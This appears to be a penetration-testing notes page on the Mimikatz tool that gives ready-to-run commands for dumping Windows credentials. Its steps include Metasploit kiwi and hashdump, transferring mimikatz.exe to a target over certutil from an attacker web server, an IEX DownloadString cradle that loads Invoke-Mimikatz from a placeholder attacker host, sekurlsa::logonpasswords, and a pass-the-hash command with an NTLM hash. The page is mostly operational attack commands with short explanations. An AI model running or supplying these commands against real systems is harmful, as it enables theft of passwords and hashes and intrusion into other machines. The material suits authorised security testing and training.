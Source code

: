 # Mimikatz

**Mimikatz** is a Windows post-exploitation tool. It allows fot the extraction of clear-text passwords, hashes and kerberos tickets from memory.

**Required**:

* **pwd the target** with shell/meterpreter
* login with a **high privilege account**



## Transfer to target



{% code title="Metasploit module" %}
```bash
# load the kiwi module
load kiwi

# get help menu
?

# retrieve all credentials with kiwi
creds_all

# dump from SAM db
lsa_dump_sam
```
{% endcode %}



{% code title="Metasploit" %}
```bash
use post/windows/gather/hashdump
set SESSION
run
```
{% endcode %}



{% code title="PS shell" %}
```powershell
# create a 'Temp' dir on Target Machine
mkdir Temp

# cp mimikatz file and host server in attack machine on port 80
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
python3 -m http.server 80

# download .exe from attack machine
certutil -urlcache -f http://IP:80/mimikatz.exe mimikatz.exe
```
{% endcode %}



{% code title="meterpreter & mimikatz.exe" %}
```powershell
# create a 'Temp' dir
mkdir Temp

# upload .exe from meterpreter to target machine
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe

# execute the program via shell in the target machine
.\mimikatz.exe

# check required privileges
privilege::debug

# lsa dump from SAM db
lsadump::sam

# show clear-text passwords
sekurlsa::logonpasswords
```
{% endcode %}



## MimiKatz into PowerShell RevShell

Stablished a connection with Hoaxshell

[#hoaxshell](../../pt/executive-pt/post-exploitation/shells.md#hoaxshell "mention")

{% code overflow="wrap" %}
```bash
wget https://raw.githubusercontent.com/PowershellMafia/Powersploit/refs/heads/master/Exfiltration/Invoke-Mimikatz.ps1
```
{% endcode %}

Host a webserver with the module Invoke-Mimikatz.ps1

```
python3 -m http.server 80
```

Run this command to import the mimikatz module from attacker webserver and use it.

{% code overflow="wrap" %}
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<ATT_IP>:<ATT_PORT>/Invoke-Mimikatz.ps1');Invoke-Mimikatz -Command '"PRIVILEGE::Debug"'
```
{% endcode %}



## Mimikatz with CrackMapExec

```bash
crackmapexec smb <IP> -u USER -p PASSWORD -M mimikatz
```



## Credentials Dump

### NTLM

```powershell
```



## Methods

{% embed url="https://tools.thehacker.recipes/mimikatz" %}

### sekurlsa

The **sekurlsa** module in Mimikatz, leverages a number of different techniques to extract authentication information from _**LSASS**_ memory including parsing memory structures and using Windows APIs.

#### "logonpasswords"&#x20;

The "logonpasswords" function of this module specifically extracts login session data such as saved password hashes and cached credentials. This can include the current user's logon information, as well as information for other users who have logged onto the same machine.

Example:

```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

#### "pth"

The "sekurlsa::pth" command in mimikatz is a features that facilitates "Pass-the-Hash" attacks. This technique allows us to authenticate to a remote system by using a captured NTLM hash of a user's password, without the need for the actual password. To execute this command, we must provide only the following parameters:

* **/user**: (the username)
* **/domain**: (the domain)
* **/ntlm**: (the NTLM hash of the user's password)

{% hint style="info" %}
Note that Windows passwords are not only limited to the NTLM protocol, but may also use popular block encryption algorithms like AES-128 and AES-256 for password storage. In such cases, adversaries would need to use the _**/aes128**_: or _**/aes256**_: parameters instead of _**/ntlm**_:
{% endhint %}

Example:

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe "sekurlsa::pth /user:Alice /domain:domain.com /ntlm:a0c8746a6efc7782c7c19c55185145be"
```
{% endcode %}



### privilege

Administrators typically have SeDebugPrivilege, enabling them to debug programs. This privilege can be restricted to prevent unauthorized memory dumps, a common technique used by attackers to extract credentials from memory. However, even with this privilege removed, the TrustedInstaller account can still perform memory dumps using a customized service configuration

#### "debug"

Before run the "sekurlsa::logonpasswords" function, we need to run the "privilege::debug" command.

By default, LSASS runs with high integrity and is protected from being debugged by unauthorized processes. However, by enabling the "_**debugger privilege**_" function, we can bypass this protection and access LSASS memory to extract the logon session data.

















